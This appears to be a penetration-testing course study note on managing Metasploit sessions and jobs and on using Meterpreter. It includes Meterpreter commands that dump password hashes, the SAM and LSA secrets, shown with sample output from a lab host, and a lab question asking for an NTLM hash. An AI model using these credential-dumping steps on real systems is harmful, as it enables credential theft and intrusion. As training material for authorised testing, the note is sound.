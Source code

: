 # 🆘 MSF Sessions

## Sessions & Jobs

`Sessions` creates dedicated control interfaces for all of your deployed modules. once a session is placed in the background, it will continue to run, and our connection to the target host will persist.

we can background the session as long as they form a channel of communication with the target host with `CRTL+Z`

We can use the `sessions` command to view our currently active sessions.

```shell-session
msf6 exploit(windows/smb/psexec_psh) > sessions
```

And we can interract with sessions with the `sessions -i [no.]` command

```shell-session
msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
```

If, for example, we are running an active exploit under a specific port and need this port for a different module, we'll use `jobs` command to look at the currently active tasks running in the background and terminate the old ones to free up the port.

```shell-session
msf6 exploit(multi/handler) > jobs -h
```

When we run an exploit, we can run it as a job by typing `exploit -j`

**Running an Exploit as a Background Job**

```shell-session
msf6 exploit(multi/handler) > exploit -j
```

If we want to list running jobs ->

```shell-session
msf6 exploit(multi/handler) > jobs -l
```

## Meterpreter

The `Meterpreter` Payload is a specific type of multi-faceted, extensible Payload that uses `DLL injection` to ensure the connection to the victim host is stable and difficult to detect using simple checks and can be configured to be persistent across reboots or system changes.

Once we got our meterpreter shell with admin rights we can dump hashes with the following command&#x20;

```shell-session
meterpreter > hashdump

Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>

meterpreter > lsa_dump_sam

[+] Running as SYSTEM
[*] Dumping SAM
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
Local SID : S-1-5-21-1709780765-3897210020-3926566182
<SNIP>

meterpreter > lsa_dump_secrets

[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
```

_**Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.**_

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
